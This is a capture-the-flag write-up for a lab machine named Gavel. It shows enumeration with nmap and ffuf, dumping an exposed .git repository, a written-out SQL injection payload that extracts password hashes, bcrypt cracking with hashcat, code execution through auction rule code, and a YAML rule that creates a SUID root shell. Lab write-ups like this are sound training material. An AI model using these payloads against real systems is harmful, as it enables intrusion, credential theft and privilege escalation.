









## Machine Gavel (Active) [Medium]


nmap scan : 
```
❯ nmap -T4 -F -sV -Pn  10.129.3.76
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-23 05:57 +0100
Nmap scan report for 10.129.3.76
Host is up (0.28s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: Host: gavel.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.19 seconds
```
alr lets check the web page:\
\
alr there is a login.php and a register.php\
I tried different variations of sqli and none worked apparently, lets look for possible endpoints :
```
ffuf -w /usr/share/wordlists/dirb/common.txt \ 
     -u http://gavel.htb/FUZZ -e .php -s
```
got this : 
```
.git/HEAD
admin.php
assets
includes
index.php
inventory.php
login.php
logout.php
register.php
rules
server-status

```

so there's some admin endpointm lets take a look :\
it kept on redirecting me to index.php for some reason, lets check .git:\

this is straight up the source code XD;
in the config file we find this : 
```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = sado
	email = sado@gavel.htb

```
so now we know a user and his email (sado)\
lets look even more\
there's this too in ```.git/logs/HEAD``` 
```
0000000000000000000000000000000000000000 ff27a161f2dd87a0c597ba5638e3457ac167c416 sado <sado@gavel.htb> 1758373935 +0000	commit (initial): gavel auction ready
ff27a161f2dd87a0c597ba5638e3457ac167c416 2bd167f52a35786a5a3e38a72c63005fffa14095 sado <sado@gavel.htb> 1759516630 +0000	commit: .
2bd167f52a35786a5a3e38a72c63005fffa14095 f67d90739a31d3f9ffcc3b9122652b500ff2a497 sado <sado@gavel.htb> 1759516682 +0000	commit: ..
```

after some looking around i couldn't read the git objects, so i used a tool called gitdumper this way:
```
git-dumper http://gavel.htb/.git/ ./source_code
```
and we got the whole thing :\
\
let's check it one by one;
in admin.php i found this:\
\
so this is why it was redirecting me, so we need to find a way to get ```auctioneer```'s creds or his cookie or anything, 
anyways, after some ai help, there's a possible sqli in inventory.php because of the way ``` user_id``` is being passed;
so i passed a basic sqli :
```
user_id=x`+FROM+(SELECT+group_concat(username,0x3a,password)+AS+`%27x`+FROM+users)y;--+-&sort=\?;--+-%00
```
and look what we got :\
\
alright!
```
auctioneer:$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS
```

so we just need to figure out the hash algorithm and crack his password:\
and its a bcrypt..\
lets crack it : 
```
hashcat -m 3200 -a 0 auctioneer:$2y$10$MNkDHV6g16FjW/lAQRpLiuQXN4MVkdMuILn0pLQlC2So9SgH5RTfS /usr/share/wordlists/rockyou.txt
```

and we get out password ! : ``` midnight1```\
so lets login as ```auctioneer``` and look at the admin page:\
\
alright lets check\
well i've been reading the admin.php code for like an hour and i couldn't find anything, apparently there's this thing in bid_handler.php which is ``` runkit_function_add``` and it let's you add a custom rule of your own, the thing is that this rule could code ,which means RCE; lets test it:\
\
i got nothing on my listener for some reason;
well, you need to place a bid for the ode to execute, so i did that, and there we are : \
\
we find that ```auctioneer``` exists here too:
```
auctioneer:x:1001:1002::/home/auctioneer:/bin/bash

```
lets get in and get user flag:\
\
user done !\
time for root!\

so after some wandering arond , we find ```gavel-util```, the catch with it is that it uses the same logic in executing code thats given as a rule (like the first one), it takes in input yaml files: \
so we create a copy of the original yaml file, and then we change: 
```
> rule_msg: "change"<n_basedir=\ndisable_functions=\n\"); return false;" 
```
so we bypass restricions and can execute code now, we do it to create a root shell : 
```
cat > rootshell.yaml << 'EOF'
name: rootshell
description: test
image: "test.png"
price: 1
rule_msg: "rootshell"
rule: "system('cp /bin/bash /opt/gavel/rootbash; chmod u+s /opt/gavel/rootbash'); return false;"
EOF
```
and then we submit it again

```
auctioneer@gavel:~$ ls -l /opt/gavel/rootbash
-rwsr-xr-x 1 root root 1396520 Feb 23 08:43 /opt/gavel/rootbash
auctioneer@gavel:~$ /opt/gavel/rootbash -p
rootbash-5.1# cat /root/root.txt
eb662afa9f09b680c14ea567c6cb81c6

```

\
done !
